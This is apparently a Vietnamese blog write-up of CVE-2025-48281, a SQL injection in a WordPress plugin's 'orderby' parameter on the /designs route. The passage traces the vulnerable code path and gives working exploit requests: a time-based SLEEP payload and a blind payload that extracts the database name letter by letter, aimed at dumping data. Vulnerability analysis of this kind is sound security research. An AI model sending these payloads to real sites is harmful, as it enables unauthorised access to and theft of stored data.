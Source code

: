 Hàm này thêm route `/designs/{id}` để load trang `designs` và truyền biến `design_id`.

👉 Như vậy khi truy cập vào `/designs/`:

- Callback `rewrite_rules` được gọi, WordPress sẽ load `/index.php?pagename=designs&design_id=`. 
- `design_id` không có giá trị nên `get_design_id_from_url` được gán cho `$design_id` sẽ là false => điều kiện `false === $design_id` xảy ra khiến `init_index_request` trong khối `if` được gọi.
- `init_index_request` gọi đến `get_designs`
- `get_designs` lấy trực tiếp `orderby` từ **GET** request thêm vào câu query để thực thi 

![Chart](assets/img/posts/2025-09-09-CVE-2025-48281/chart.png)

## Exploit
### Detect SQLi

Gửi **GET request** chứa payload SQLi.

```http
GET /designs/?orderby=(SELECT+SLEEP(5)) HTTP/1.1
Host: localhost
...
Cookie: cookie_here
```

Khi đó câu query sẽ trở thành:

```sql
SELECT * FROM wp_mystyle_designs  WHERE ms_access = 0  ORDER BY (SELECT SLEEP(5)) ASC LIMIT 25
				OFFSET 0
```

![time response](assets/img/posts/2025-09-09-CVE-2025-48281/time_resp.png)

👉 Dựa trên thời gian phản hồi => payload hoạt động.

> Trong trường hợp này không nên comment phía sau `SLEEP`. Vì developer đã enter khiến **OFFSET** xuống dòng thứ 2, khi comment hoạt động, parser của SQL sẽ xử lý và trả về lỗi.
{: .prompt-info }

![debug](assets/img/posts/2025-09-09-CVE-2025-48281/debug.png)

Cuỗi cùng sẽ được tách thành 2 câu query ở 2 dòng khác nhau gây ra lỗi:

```sql
SELECT * FROM wp_mystyle_designs  WHERE ms_access = 0  ORDER BY (SELECT SLEEP(5)) -- ASC LIMIT 25				
OFFSET 0
```

### Get First Letter of Database Name
Điều kiện tiên quyết để **dump được hết data** là phải dump được 1 ký tự bất kỳ của tên database, nếu lấy được thì gần như toàn bộ data đều dump được.

Gửi request với **SQLi payload**:

```http
GET /designs/?orderby=IF(SUBSTRING(SCHEMA(),1,1)=0x77,SLEEP(5),1) HTTP/1.1
Host: localhost
...
Cookie: cookie_here
```
